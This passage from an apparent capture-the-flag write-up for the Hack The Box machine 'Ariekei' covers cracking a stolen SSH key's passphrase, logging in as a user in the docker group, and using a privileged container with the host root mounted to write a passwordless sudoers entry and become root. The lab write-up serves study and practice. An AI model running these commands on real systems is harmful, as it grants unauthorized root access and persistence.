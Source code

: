 root@beehive:/home/spanishdancer/.ssh# cat id_rsa.pub	
cat id_rsa.pub 
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC325QNrOHp+Ob93i/XR2XkXZ1k/ypSbKhdcKB2CQLNW1jXp+CKnb5wmin/hEJ8u3Crm5YsFjg/K/x6hBDa0TwpwQxIZ7y1JbWFXL3XRdvpi6YrIMdUwGs3lCAUwJhazVnOUAY92EnoLdQlbPgXT4gVxMfW37YDBC3Gg2YJRKUkrDaYsI9oxvGMU1vmigb/0Ck/+kG/n0yOa0NBb2orEwQYoqX1cW4PnuTmR7bD53PsWmNcYhLxSvd783tz9Q/Np7q9/ziPo2QCN1R0fY7UykmASA1hedfI6C2mUKaETN4vKnfVeppb5m7wXhkSlYULE5PcmXuGoYCD6WtwAzPiwb1r spanishdancer@ariekei.htb
```



Looks like a ssh key for the user spanishdancer

It would be better if we could ssh into the user instead of spawning shellz :D

Lets go Johnny!

<kbd><img src="https://media.giphy.com/media/REej9xTUwlmgM/giphy.gif"></kbd>

Step1:

<kbd><img src="https://github.com/jakobgoerke/HTB-Writeups/blob/master/Ariekei/Images/Johnny1.PNG"></kbd>

Step 2:

<kbd><img src="https://github.com/jakobgoerke/HTB-Writeups/blob/master/Ariekei/Images/Johnny2.PNG"></kbd>

Le SSH Password

```
root@kali:~/hackthebox/Ariekei# ssh -i id_rsa spanishdancer@ariekei.htb
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 16.04.3 LTS (GNU/Linux 4.4.0-87-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

7 packages can be updated.
7 updates are security updates.


Last login: Mon Nov 13 10:23:41 2017 from 10.10.14.2
spanishdancer@ariekei:~$ id
uid=1000(spanishdancer) gid=1000(spanishdancer) groups=1000(spanishdancer),999(docker)
spanishdancer@ariekei:~$ hostname
ariekei.htb
```

We are now on ariekei.htb and not beehive or calvin Feelsgoodman

Time to break out of the docker

[Video](https://www.youtube.com/watch?v=AtO5TDJnieA&feature=youtu.be) Shows us how to break out of the docker to the host machine

```
spanishdancer@ariekei:~$ docker run --privileged --interactive --tty --volume /:/host bash
bash-4.4# echo "spanishdancer ALL=(ALL) NOPASSWD: ALL" > /host/etc/sudoers.d/foo
bash-4.4# exit
exit
spanishdancer@ariekei:~$ sudo -i
root@ariekei:~# id
uid=0(root) gid=0(root) groups=0(root)